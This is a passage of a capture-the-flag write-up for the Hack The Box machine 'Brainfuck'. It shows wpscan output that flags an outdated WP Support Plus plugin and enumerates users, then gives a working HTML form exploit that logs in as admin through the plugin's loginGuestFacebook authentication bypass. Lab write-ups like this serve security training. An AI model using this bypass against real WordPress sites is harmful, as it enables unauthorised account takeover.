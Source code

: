 ```console

[+] wp-support-plus-responsive-ticket-system
 | Location: https://brainfuck.htb/wp-content/plugins/wp-support-plus-responsive-ticket-system/
 | Last Updated: 2019-09-03T07:57:00.000Z
 | [!] The version is out of date, the latest version is 9.1.2
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 7.1.3 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - https://brainfuck.htb/wp-content/plugins/wp-support-plus-responsive-ticket-system/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - https://brainfuck.htb/wp-content/plugins/wp-support-plus-responsive-ticket-system/readme.txt
```
From my experiences that wp plug-in is vulnerable. So after googling a bit I found an exploit that would work perfectly with this version. [link](https://www.exploit-db.com/exploits/41006) the problem is we do not have any username yet. let run `wpscan` again but this time for user enum
```console
$ wpscan --url https://brainfuck.htb/ --disable-tls-checks -e u
[i] User(s) Identified:

[+] admin
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] administrator
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```
okay now we got username, let check the exploit
```html
<form method="post" action="http://wp/wp-admin/admin-ajax.php">
	Username: <input type="text" name="username" value="administrator">
	<input type="hidden" name="email" value="sth">
	<input type="hidden" name="action" value="loginGuestFacebook">
	<input type="submit" value="Login">
</form>
```

# user

from the exploit page `You can login as anyone without knowing password because of incorrect usage of wp_set_auth_cookie().` we will need to check `action` to point at our target.  and then just login as `admin`
```html
<form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">
	Username: <input type="text" name="username" value="admin">
	<input type="hidden" name="email" value="sth">
	<input type="hidden" name="action" value="loginGuestFacebook">
	<input type="submit" value="Login">
</form>
```
now put it in a .html file. and run python3 webserver
```
-bibo318@parrot:~/HTB/brainfuck$ nano exploit.html
[10.10.14.43]-bibo318@parrot:~/HTB/brainfuck$ zsh
┌──(kali㉿kali)-[~/HTB/brainfuck]
└─$ python3 -m http.server --cgi 8888                                       
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
```